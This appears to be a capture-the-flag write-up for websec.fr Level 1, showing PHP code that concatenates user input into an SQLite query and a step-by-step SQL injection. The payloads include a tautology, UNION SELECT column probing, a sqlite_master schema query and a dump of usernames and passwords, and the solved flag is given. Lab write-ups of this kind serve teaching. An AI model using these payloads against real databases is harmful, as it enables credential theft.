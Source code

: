 # Level 1
## Description
Challenge URL: https://websec.fr/level01/index.php  

![image](https://user-images.githubusercontent.com/44528004/132601995-9e60abba-e344-4271-83e8-3392e98229d1.png)
## Solution
### Initial observation
The `this application` links to the back-end source code including PHP and HTML. Following is the source for PHP:  
```php
<?php
session_start ();

ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

include 'anti_csrf.php';

init_token ();

class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
        
        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query($query);
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id'])) {
    check_and_refresh_token();

    $lo = new LevelOne ();
    $userDetails = $lo->doQuery ($_POST['user_id']);
}
?>
```

Here, we can see that the query statement is prepared by concatenating user input to a predefined statement and thereby susceptible to SQL injection.  

If I enter the `user ID` as `'`, an error message is returned:  
```
Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "' LIMIT 1" in /index.php on line 16

Fatal error: Call to a member function fetchArray() on boolean in /index.php on line 17
```

If I enter '' or 1=1 --, I get this:  

![image](https://user-images.githubusercontent.com/44528004/132615026-734f4575-28eb-4e65-9bb3-da1ad6e08955.png)


### Exploitation
First, I found the number columns returned.  
When I entered `'' union select 1 --`, I got:  
```
Warning: SQLite3::query(): Unable to prepare statement: 1, SELECTs to the left and right of UNION do not have the same number of result columns in /index.php on line 16

Fatal error: Call to a member function fetchArray() on boolean in /index.php on line 17
```
This means the `SELECT` statement on the right side doesn't have the same number of columns as of the left side. Therefore, I increased the number of columns on the right side to 2 with the following payload:
```
'' union select 1, 1--
```

As a result, I got this:  

![image](https://user-images.githubusercontent.com/44528004/132615447-388b4ecc-5d20-460a-99aa-1af3365d1708.png)

This implies that there are 2 columns returned.

Next, I tried to disclose table names and column names to hopefully find something.  
From [this post](https://stackoverflow.com/questions/6460671/sqlite-schema-information-metadata), I got the payload to get the table names as well as the sql command to create that table:
```sql
SELECT name, sql FROM sqlite_master
WHERE type='table'
ORDER BY name;
```

With that payload, I got this result:  

![image](https://user-images.githubusercontent.com/44528004/132615853-0236d80c-7c0f-40a0-a7fc-df46e6d990d7.png)

From the result, I can see that there is a table called `users` and in that table there are 3 columns, namely `id`, `username`, and `password`.

Them, I wanted to see all `username`s in this table:
```sql
'' UNION SELECT username, password FROM users ORDER BY username DESC --
```

The result is:  

![image](https://user-images.githubusercontent.com/44528004/132617184-184c540e-bf7a-4f10-876f-981b272adef4.png)
> So flag: `WEBSEC{Simple_SQLite_Injection}`
